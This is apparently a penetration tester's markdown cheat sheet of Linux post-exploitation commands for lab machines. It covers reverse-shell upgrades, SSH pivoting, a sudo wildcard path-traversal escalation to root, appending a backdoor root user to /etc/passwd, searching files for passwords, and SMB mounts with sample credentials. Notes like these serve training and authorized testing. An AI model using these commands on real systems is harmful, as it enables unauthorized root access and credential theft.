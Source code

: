 ## ps, only list certain cats

```
ps -e -o user,pid,command
```


## login ssh with custom id_rsa

```
ssh -i id_rsa dexter@10.10.10.216
```

## Easy Pretty bash shell after you connect with nc (yes, this still works well!!!)

```
python -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo
fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

use `stty sane` to revert!!!!
---

</br>


## **--> Port Forward and Double Hop with SSH**

```
ssh -L 5555:10.10.10.8:3389 -J dog@192.168.1.12 cat@192.168.122.36

```

##  **Sudo command** as a specific user (run after a sudo -l)

```
sudo -u onuma tar
```

## **Sudo Commnd** file description

```
User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*


## This means I can run the "nice" command for everything in the "/notes/" dir, however since we use a "*" this can include ".." thus to get root:

sudo /bin/nice /notes/../bin/bash
```

## Add user to passwd file

```
openssl passwd -crypt -salt salty passwordy


    openssl passwd -crypt -salt xx password

prints xxj31ZMTZzkVA. --> Put this in column two of passwd

    openssl passwd -1 -salt xxxxxxxx password

prints $1$xxxxxxxx$UYCIxa628.9qXjpQCjM4a. --> Put this in column two of passwd

    openssl passwd -apr1 -salt xxxxxxxx password

prints $apr1$xxxxxxxx$dxHfLAsjHkDRmG83UXe8K0. 
```

## Add user to passwd file (easier way)

```
openssl passwd evil
echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```


## Enumerate for "unique" bins:

```
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
```


## Convert Windows UTF16 files to Linux UTF8

```
echo "windows" | iconv UTF-16LE -t UTF-8

```

## Run less with WINPEAS colors (Bash colors)

```
less -R winpeas.txt
```

## Mount SMB Share to local fs

```
sudo mount -t cifs -o 'username="user", password="password"' //10.10.10.172/Users /mnt/folder
```

## Mount SMB Share for SMB 1.0

```
sudo mount -t cifs -o 'username="admin",password="$weetNess11#",vers=1.0' '//10.11.1.5/C$' /mnt/point/
```

## list kernel modules

```
lsmod
```

## Grep, look for text in files recursivly while ignoring certain file extensions!!!

```
fgrep -nr password --exclude=\*.js *
```